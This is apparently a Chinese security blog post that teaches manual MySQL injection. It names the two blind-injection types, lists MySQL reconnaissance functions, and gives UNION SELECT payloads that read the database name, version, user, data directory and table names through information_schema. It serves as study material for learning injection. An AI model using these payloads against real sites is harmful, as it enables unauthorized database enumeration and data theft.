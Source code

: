 ```yaml
---
layout: post
title: MySQL手工注入之基本注入流程
categories: 安全知识
description: MySQL手工注入之基本注入流程
keywords: sql注入
---
```


# mysql 盲注学习

盲注有哪些分类？
总体来讲，盲注分为**布尔型**和**延时型**两大类。

[一文搞定 MySQL 盲注](https://www.anquanke.com/post/id/266244#h3-2)

[sql 介绍](http://www.yowell.pw/?p=327)


# 收集信息
在爆出的字段值里面可以替换为我们的恶意语句，前期主要是收集信息，包括判断当前数据库是否是root用户，MySQL的版本等，一般收集这些信息常用一些MySQL自带的函数去收集信息:MySQL常用的系统函数

```dotnetcli
version()            #MySQL版本user()               
#数据库用户名database()           #数据库名@@datadir            #数据库路径
@@version_compile_os #操作系统版本

```

## 查询当前数据库名

```dotnetcli
id=1' and 1=2 UNION SELECT 1,database(),3 --+

```
## 查询MySQL版本

```dotnetcli

id=1' and 1=2 UNION SELECT 1,2,version() --+

```
## 查询数据库用户和路径

```dotnetcli
id=1' and 1=2 UNION SELECT 1,user(),@@datadir --+

```

# 查询表名

database 查询数据库

```dotnetcli
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

```
## 单引号-数据库

```dotnetcli
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+

```

# 转载
[新手科普 | MySQL手工注入之基本注入流程
](https://cloud.tencent.com/developer/article/1482397)